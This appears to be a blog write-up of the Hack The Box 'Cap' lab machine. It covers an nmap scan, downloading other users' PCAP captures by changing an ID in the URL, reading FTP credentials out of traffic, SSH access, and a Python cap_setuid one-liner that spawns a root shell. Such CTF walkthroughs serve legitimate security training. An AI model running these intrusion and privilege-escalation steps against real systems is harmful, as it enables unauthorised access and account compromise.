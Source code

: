 ```yaml
---
clayout: ctf
title: Cap
date: 2025-03-12
image: /ctf/hack-the-box/machines/cap/info-card.png
type: Hack The Box

ctf:
    - name: Cap
      link: https://app.hackthebox.com/machines/351
      thumbnail: /ctf/hack-the-box/machines/cap/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/351
          thumbnail: /ctf/hack-the-box/machines/cap/pwned.png
---
```


## Enumeration

### Nmap Scan

We begin by running an Nmap scan to identify open ports and services on the target machine:

```bash
nmap -sC -sV -v -p- -oN cap.nmap 10.10.10.245
```

#### Scan Results:

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

From the results, we identified three open ports:

- **Port 21:** FTP (vsftpd 3.0.3)
- **Port 22:** SSH (OpenSSH 8.2p1)
- **Port 80:** HTTP (Gunicorn web server)

## Web Enumeration

### Exploring HTTP - Port 80

Visiting `http://10.10.10.245`, we see a **Security Dashboard**:

![Security Dashboard](/ctf/hack-the-box/machines/cap/security-dashboard.png)

One of the options, **Security Snapshot (5 Second PCAP + Analysis),** leads to a **Capture Analysis** page:

![Capture Analysis](/ctf/hack-the-box/machines/cap/capture-analysis.png)

This page allows us to download PCAP files. The URLs follow the pattern `/data/<id>`. By iterating over different values, we retrieve multiple PCAP files for analysis.

### Extracting Credentials from PCAP

Using Wireshark to analyze the PCAP files, we find FTP credentials in `/data/0`:

```plaintext
36   4.126500   192.168.196.1   192.168.196.16   FTP   69   Request: USER nathan
40   5.424998   192.168.196.1   192.168.196.16   FTP   78   Request: PASS ***************
```

We now have valid FTP credentials for `nathan`.

## Gaining Access

### FTP Login & User Flag

Using the extracted credentials, we log in to the FTP server:

```bash
ftp 10.10.10.245
Name (10.10.10.245:nathan): nathan
Password: ***************
```

We list the available files and find the user flag:

```bash
ftp> ls -al
-r--------    1 1001     1001           33 Mar 12 18:26 user.txt
ftp> get user.txt
```

Using the same credentials, we can log in via SSH:

```bash
ssh nathan@10.10.10.245
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

## Privilege Escalation

### Checking Capabilities

Using `getcap`, we identify a privilege escalation vector:

```bash
getcap -r / 2>/dev/null
```

```plaintext
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The `cap_setuid` capability allows the Python binary to change its effective user ID, providing a path to escalate privileges.

### Exploiting Python Capabilities

We use the following command to elevate our privileges:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

We successfully escalate to root.
